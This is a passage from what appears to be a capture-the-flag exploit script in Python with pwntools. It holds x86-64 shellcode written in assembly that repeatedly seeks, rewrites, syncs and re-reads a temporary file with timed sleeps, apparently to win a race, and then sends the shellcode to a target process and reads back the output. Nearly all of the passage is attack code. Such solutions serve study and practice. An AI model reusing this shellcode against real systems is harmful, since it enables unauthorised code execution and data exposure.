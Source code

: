 ```python
  push 2
  mov rdi,rsp
  syscall

rewrite:
  // set offset to 0
  mov edi,[r10-0x20]
  xor esi,esi
  xor edx,edx
  mov eax,8
  syscall

  // rewrite temp file
  mov edi,[r10-0x20]
  mov rsi,r10
  mov edx,0x1000
  mov eax,1
  syscall

  mov rdi,[r10-0x20]
  mov eax,74
  syscall

rewrite2:
  // nanosleep wait parent works a bit
  mov eax,35
  mov rcx,100000000
  push rcx
  push 0
  mov rdi,rsp
  syscall

  // set offset to 0
  mov edi,[r10-0x20]
  xor esi,esi
  xor edx,edx
  push 8
  pop rax
  syscall

  // dump temp file again
  mov edi,[r10-0x20]
  lea rsi,[rsp-0x1100]
  mov edx,0x1000
  xor eax,eax
  syscall
  mov edx,eax
  push 1
  pop rax
  push 1
  pop rdi
  syscall

  jmp rewrite


''')

p.send(shellc)
buff = b''
size = 0x1000
while size>0:
  temp = p.recv(size)
```